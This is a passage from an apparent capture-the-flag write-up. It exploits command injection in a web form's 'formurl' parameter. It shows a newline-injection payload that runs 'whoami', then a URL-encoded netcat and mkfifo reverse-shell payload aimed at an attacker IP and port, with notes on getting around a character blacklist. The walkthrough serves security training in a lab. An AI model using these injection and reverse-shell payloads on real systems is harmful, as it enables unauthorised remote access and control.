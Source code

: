 Successfully achieved RCE by prepending %0a.

```
formurl=http%3A%2F%2Flocalhost%0awhoami&submit=Go
```

<img src="/assets/img/haircut/Untitled 5.png" alt="Untitled 5.png" style="width:800px;">

Trying to establish a reverse shell does not work. Semicolons are not the only blacklisted character. In fact, there are multiple commands blocked but we can easily enumerate them from the server response :D.

```
formurl=http%3A%2F%2Flocalhost%0arm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.42%204444%20%3E%2Ftmp%2Ff&submit=Go
```

<img src="/assets/img/haircut/Untitled 6.png" alt="Untitled 6.png" style="width:800px;">

